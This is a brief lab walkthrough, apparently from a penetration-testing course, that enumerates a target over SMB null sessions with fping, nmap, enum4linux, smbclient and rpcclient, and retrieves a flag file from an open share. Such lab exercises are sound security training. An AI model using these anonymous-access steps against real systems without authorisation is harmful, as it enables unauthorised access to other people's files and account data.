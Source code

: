 # Null Session 

> Makayla Ferrell | July 28th, 2021

### Steps 


1. Connect to VPN 
```
sudo openvpn <filename> 
```
2. Find Network IP range 
```
ip a 
```
192.168.99.100/24

3. Find active hosts with fping 
```
fping -a -g 192.168.99.100/24 2>/dev/null 
```
The target is 192.168.99.162

4. nmap scan 
```
sudo nmap -sV -O 192.168.99.162     
```
Host is running 135, 139, 445. 

5. Enumerate Shares 
```
smbclient -L //192.168.99.162 -N  
enum4linux -S 192.168.99.162 
nmap --script=smb-enum-shares 192.168.99.162 > nmap_smb.txt
```

6. Check for null session using enum4linux
```
enum4linux -n 192.168.99.162 
```
Null session is allowed 

7. Connect via smbclient 
```
smbclient //192.168.99.162/IPC$ -N
```

8. Find congratulations.txt 
WorkSharing Drive 
```
smbclient //192.168.99.162/WorkSharing -N 
get Congratulations.txt
```

9. Get more out of the null session 
```
rpcclient -N 192.168.99.162 -U ""  
help 
```